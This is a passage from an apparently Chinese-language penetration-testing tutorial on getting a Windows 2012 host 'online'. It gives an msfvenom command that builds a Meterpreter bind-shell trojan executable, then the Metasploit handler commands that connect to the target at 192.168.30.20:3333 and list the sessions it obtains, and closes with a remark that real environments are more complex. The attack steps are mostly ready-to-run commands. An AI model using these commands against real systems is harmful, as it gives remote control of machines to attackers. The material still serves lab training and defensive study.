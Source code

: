 ## 3.3. Windows 2012上线

这里和上面`Windows 2003`操作流程是一样的，没太多可说的。

### 3.3.1. 生成木马

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=3333 -f exe > 2012.exe
```

![image-20230518162415772](assets/QJI7ULs5ZfbrzW2.png)

### 3.3.2. 设置监听

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.30.20    ##目标地址
set lport 3333
run
```

![image-20230518163206872](assets/uJ89YvBeiWKPXmA.png)

### 3.3.3. 查看后台会话

```
sessions
```

![image-20230518163238994](assets/sUeEgV5PkB6813x.png)

# 4. 总结

各位看这可能有点恍惚，实际环境中真的有那么顺吗？其实不然，实际的环境中可能更复杂，这里只是将这个复杂的内容，分为单方面来说，所以看似容易，当所有单方面说完，综合起来肯定就比较复杂了。
